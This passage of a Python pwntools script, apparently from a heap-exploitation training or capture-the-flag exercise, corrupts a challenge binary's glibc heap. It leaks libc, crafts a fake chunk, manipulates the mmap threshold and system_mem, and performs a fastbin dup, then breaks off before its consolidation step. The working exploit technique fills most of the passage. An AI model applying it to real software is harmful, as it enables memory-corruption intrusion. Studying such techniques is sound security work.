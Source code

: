 ```python=

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1;

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# Leverage a fastbin dup to link the fake "age" chunk into the 0x20 fastbin.
dup = malloc(0x18, b"A"*8)
safety = malloc(0x18, b"B"*8)

free(dup)
free(safety)
free(dup)

malloc(0x18, pack(elf.sym.user)) # Address of fake chunk.


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

```